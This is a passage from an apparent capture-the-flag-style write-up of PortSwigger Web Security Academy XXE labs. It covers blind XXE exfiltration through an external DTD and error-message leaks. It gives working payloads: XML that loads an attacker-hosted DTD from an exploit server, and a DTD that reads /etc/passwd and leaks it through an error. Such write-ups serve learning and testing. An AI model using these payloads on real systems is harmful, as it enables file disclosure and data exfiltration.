 **our payload**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "[https://exploit-aca01f131ef69bb88016478a013700bc.web-security-academy.net/exploit.dtd](https://exploit-aca01f131ef69bb88016478a013700bc.web-security-academy.net/exploit.dtd)"> %xxe;]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```
![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-blind-XXE-to-exfiltrate-data-using-a-malicious-external-DTD.png)

we will find 
> 9f6f497e5093

submit the solution

Labe Solved

------------

# Lab: Exploiting blind XXE to retrieve data via error messages

go to exploit server

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

to host the malicious code to retrieve on our BurpSuite

put it in request

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

replace YOUR-DTD-URL with your exploit DTD url so it will be 

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac431fd81ed49e85800965b0015a00b6.web-security-academy.net/exploit"> %xxe;]>
```
![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-blind-XXE-to-retrieve-data-via-error-messages.png)

Labe Solved

------------

# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.
